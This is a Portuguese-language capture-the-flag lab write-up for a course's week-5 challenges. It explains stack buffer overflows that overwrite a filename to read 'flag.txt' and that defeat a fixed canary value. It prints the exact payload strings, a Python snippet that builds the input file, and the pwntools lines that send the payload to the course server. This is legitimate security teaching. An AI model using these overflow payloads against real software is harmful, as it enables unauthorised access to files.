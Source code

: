 ## Processo utilizado para resolver o CTF da Semana 5
### Desafio 1

A ideia é, no scanf inserirmos uma mensagem maior que o tamanho do buffer e isto resultará no nosso overflow. Como o array com o nome do ficheiro a ser lido(`meme_file`) está a ser instanciado logo acima do `buffer`, ao dar overflow no `buffer`, estaremos a escrever por cima do `meme_file`, e assim podemos mudar o nome do ficheiro que irá ser lido.
Como sabemos que o buffer tem tamanho de 32 bytes, basta inserir uma mensagem com 32 caracteres(não importa quais), seguido de "flag.txt".
Para conseguir a flag, mudamos a linha 14 do ficheiro "exploit-example.py" para `r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")`. Corremos o programa e conseguimos a flag para o Desafio 1.

### Desafio 2

Primeiro corremos o ficheiro "program" localmente e inserimos a mensagem utilizada no exercicio anterior e devolveu-nos o seguinte:
```You gave me this flag.txt and the value was 0xdeadbeef. Disqualified!```
Depois ao analisar o codigo em ... .c vimos que agora existe no programa um canário, ou seja, foi declarado um array chamado de "val" antes de "meme_file" e que o programa verifica se o seu conteudo é 0xfefc2324, ou seja no array, [0x24, 0x23, 0xfc, 0xfe]. Então escrevemos k seguinte programa em python para nos criar a mensagem necessária:
```
with open('badfile', 'wb') as f:
  f.write(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt\0\x24\x23\xfc\xfe")
```
Corremos o program em python e obtivemos:
....
Depois corremos "program" e introduzimos a mensagem anterior.

E assim obtivemos a `...`

De seguida alteramos o ficheiro "example-exploit.py", mudando a porta para 4000 (passando a estar escrito `r = remote('ctf-fsi.fe.up.pt', 4000)`) e a mensagem para a mensgem anterior (passando a estar escrito `r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt\0\x24\x23\xfc\xfe")`). Corremos "example-exploit.py", porém foi devolvido o seguinte:
```You gave me this .txt and the value was 0x67616c66. Disqualified!```
Com isto pensamos que o canário("val") poderia estar declarado entre "meme_file" e "buffer". Logo tentamos escrever a seguinte mensagem:
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt\0"

Corremos "example-exploit.py" e o programa devolveu-nos a flag.

Localmente:
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt\0\x24\x23\xfc\xfe`
porque o canário("val") está declarado antes de "meme_file" e de "buffer".

Para testar localmente:
```
with open('badfile', 'wb') as f:
  f.write(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt\0\x24\x23\xfc\xfe")
```

No servidor:
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt\0`
porque o canário("val") deve estar declarado entre "meme_file" e "buffer".
